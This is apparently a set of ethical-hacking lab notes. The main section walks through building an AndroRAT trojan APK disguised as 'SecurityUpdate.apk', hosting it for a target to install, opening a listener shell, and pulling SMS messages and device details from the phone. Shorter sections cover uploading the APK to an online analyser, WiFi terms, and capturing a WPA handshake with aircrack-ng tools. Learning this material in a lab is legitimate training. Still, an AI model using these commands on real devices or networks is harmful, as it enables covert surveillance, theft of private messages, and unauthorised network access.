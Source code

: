 # Hack an Android Device by Creating APK File using AndroRAT
```
In this task, we will use AndroRAT to create an APK file to hack
an Android device.
Open terminal
>sudo su
>cd AndroRAT
>python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
--build: is used for building the APK
-i: specifies the local IP address (here, 10.10.1.13)
-p: specifies the port number (here, 4444)
-o: specifies the output APK file (here, SecurityUpdate.apk)
New tab
>cd AndroRAT
>python3 -m http.server 8888
New tab
>cd AndroRAT
>python3 androRAT.py –shell -i 0.0.0.0 -p 4444 (to listen for connections
In android
Browse to attacker IP and port
Download and install SecurityUpdate.apk
In attacker, session started and can type help to see options
>help
>deviceInfo
>getSMS inbox
>getMACAddress
```

# Analyse a Malicious App using Online Android Analyzers
```
Go to Android machine
Go to sixo online apk analyser in Browser
Upload APK
```

# Wifi Hacking
```
AP – Access Point (The wifi router)
MAC – Media Access Control
BSSID – Access Point's MAC Address  
ESSID ‐ Access Point’s Broadcast name. (ie linksys, default,  belkin etc)
Channel - The frequency of the transmission
```

# Crack Wifi with Aircrack
```
1. Capture the Handshake
    Put wifi card into monitor mode
        >iwconfig
        >airmon-ng start wlan0
    Capture traffic
        >airodump-ng {wifi card name e.g. wan0mon}
    Now start capturing the related traffic of your  target AP
        > airodump‐ng ‐c 6 ‐‐bssid C0:F6:C2:5E:8D:20 ‐w pass wlan0mon
        ‐c 6 is the channel for the wireless network  
        ‐‐bssid C0:F6:C2:5E:8D:20 is the access point MAC address.  This eliminates extraneous traffic.  
        ‐w pass is the file name   
        ‐wlan0mon is the interface name 
```